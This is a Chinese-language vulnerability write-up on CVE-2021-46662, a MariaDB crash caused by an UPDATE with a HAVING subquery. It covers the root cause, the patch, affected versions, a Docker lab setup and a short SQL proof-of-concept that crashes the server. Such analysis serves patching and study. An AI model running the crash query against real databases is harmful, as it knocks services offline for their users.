



# CVE-2021-46662 CWE-None MariaDB DoS via Segmentation Fault

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。

## 漏洞原理

MariaDB 在执行带有子查询的 UPDATE 语句时，内部会调用 `mysql_select()` 来处理子查询和表达式。由于 UPDATE 语句本身不需要像 SELECT 一样输出字段，所以传递给 `mysql_select()` 的字段列表（fields/total_list）是空的。但是代码逻辑没有区分场景，无论字段列表是否为空，都设置了解析标志（`resolve_in_select_list=true`），后续子查询的字段解析（如 HAVING 里的字段）会尝试访问这个空字段列表的内容，导致 mysqld 进程发生段错误（Segmentation Fault），最终崩溃。

## 漏洞定位

分析 MariaDB 10.6.3：

在 `mysql_multi_update()` 里，为了调用 `mysql_select()`，本应传递实际的字段列表（用于后续表达式、子查询字段解析）。但实际上传递了一个始终为空的 `total_list`（本意可能是“无输出需求”，但**子查询解析其实需要字段信息**）。

在`mysql_select()` 中第 **4899** 行直接设置 `select_lex->context.resolve_in_select_list= TRUE;`，意味着后续 fix_fields 阶段会强制解析 select 列表里的字段（即使 fields 是空的）。

子查询、表达式解析时（比如 `Item_ref::fix_fields()`），代码以为 fields 是有内容的，于是去访问相关的指针数组（如 ref_pointer_array[]）。由于 fields 为空，这些指针数组没有初始化，访问时就会导致未定义行为（如崩溃）。

```c
bool mysql_select(THD *thd, TABLE_LIST *tables, List<Item> &fields, ...)
{
  int err= 0;
  bool free_join= 1;
  DBUG_ENTER("mysql_select");

    // 4899 行 ************************* 漏洞点
  select_lex->context.resolve_in_select_list= TRUE;
  JOIN *join;
  
    // ... ...
}
```

## 漏洞修复


补丁调整了 `select_lex->context.resolve_in_select_list`：**仅当 `fields` 列表非空时才将其设置为 `true`**。这样，`Item_ref::fix_fields()` 阶段不会尝试解析空的名称解析上下文，从而避免访问未初始化的指针，并与正常 `SELECT` 场景的行为保持一致。

```c
  bool free_join= 1;
  DBUG_ENTER("mysql_select");

  if (!fields.is_empty())  // New judgment
    select_lex->context.resolve_in_select_list= true;

  JOIN *join;
  if (select_lex->join != 0)
  {
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.3.0 至 10.3.31
- 10.4.0 至 10.4.21
- 10.5.0 至 10.5.12
- 10.6.0 至 10.6.4

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中已存在 PoC 文件 CVE-2021-46662-PoC.sql 。

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2021-46662-PoC.sql，可以看到遇到错误且容器自动关闭

```sql
source CVE-2021-46662-PoC.sql
```



4、查看 MariaDB 崩溃日志，可以看到`[ERROR] mysqld got signal 11 ;`，表明 Segmentation Fault（段错误）发生导致 DoS。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
-- 创建测试表
create table t1 (a int) ;

insert into t1 (a) values (1),(2),(3) ;

-- 触发漏洞的 SQL
update t1 set a= (select 2 from t1 having (a = 3));
```

右侧 `(SELECT 2 FROM t1 HAVING (a = 3))` 是一个子查询，且带有 HAVING 条件，实际等同于一个依赖外部字段的嵌套子查询。在执行 UPDATE 时，内部会复用 SELECT 的流程，并且**传递给子查询字段解析（fix_fields）的字段列表是空的**（因为 UPDATE 并不需要“查询输出”任何字段）。这个空字段列表叫 `total_list`，在 UPDATE 实现里始终为空。

在解析 HAVING (a=3) 时，系统试图绑定字段 `a`，但因为字段列表是空的，绑定失败。由于没有防御性检查，后续代码试图访问未初始化或不存在的内存区域（比如空数组、空指针）。程序因访问空字段列表中的内容发生 segment fault（段错误），直接崩溃。

## 参考链接


[NVD - CVE-2021-46662](https://nvd.nist.gov/vuln/detail/CVE-2021-46662)

[[MDEV-25637\] Bug report: abortion in sql/set_var.cc:0 - Jira](https://jira.mariadb.org/browse/MDEV-25637)

[[MDEV-22464\] Server crash on UPDATE with nested subquery - Jira](https://jira.mariadb.org/browse/MDEV-22464)

[MDEV-22464 Server crash on UPDATE with nested subquery · MariaDB/server@ff77a09](https://github.com/MariaDB/server/commit/ff77a09bda884fe6bf3917eb29b9d3a2f53f919b#diff-16fd8e507582e428d933bc7ee3984394eab544410785220b536ab964d4e9e084)
